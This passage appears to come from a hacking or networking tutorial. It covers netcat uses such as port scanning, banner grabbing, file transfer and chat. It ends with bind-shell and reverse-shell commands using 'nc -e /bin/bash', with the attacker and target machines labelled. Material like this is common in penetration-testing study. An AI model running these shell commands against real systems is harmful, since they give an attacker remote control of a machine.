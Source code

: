 ```sh
net.sniff on
exit
```


## 17. Netcat (nc): The Swiss Army Knife of Networking
Netcat is a versatile tool for reading from and writing to network connections using TCP/UDP. It's often used for port scanning, file transfers, and even reverse shells.

**Basic Syntax:**
```
nc [options] [host] [port]
```
**Simple Port Scanning:**
```
nc -zv 192.168.1.1 20-80
```
- `-z`: Zero-I/O mode (for scanning).
- `-v`: Verbose output.
**Banner Grabbing (Check Service Info):**
```
nc 192.168.1.1 80
```
Then type:
```
GET / HTTP/1.1
Host: 192.168.1.1
```
**File Transfer (Sender):**
```
nc -l -p 1234 > received_file.txt
```
**File Transfer (Receiver):**
```
nc 192.168.1.5 1234 < file.txt
```
**Chat Between Two Systems:**
_On System 1 (Listener):_
```
nc -l -p 1234
```
_On System 2 (Sender):_
```
nc 192.168.1.5 1234
```
**Bind Shell (Remote Shell Access):**
_On Target Machine:_
```
nc -l -p 4444 -e /bin/bash
```
_On Attacker's Machine:_
```
nc 192.168.1.5 4444
```
**Reverse Shell (Connect Back to Attacker):**
_On Attacker's Machine (Listener):_
```
nc -l -p 4444
```
_On Target Machine:_
```
nc 192.168.1.10 4444 -e /bin/bash
```
